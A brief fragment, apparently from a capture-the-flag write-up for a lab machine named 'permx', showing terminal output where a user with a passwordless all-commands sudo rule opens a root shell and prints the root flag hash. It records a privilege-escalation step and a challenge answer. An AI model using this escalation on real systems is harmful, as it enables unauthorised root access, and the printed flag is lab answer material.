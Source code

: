```
mtz ALL=(ALL:ALL) NOPASSWD: ALL
mtz@permx:~$ sudo bash
root@permx:/home/mtz# cat /root/root.txt
f4203ef7c8d4049b9c627a53a49b3d22
```
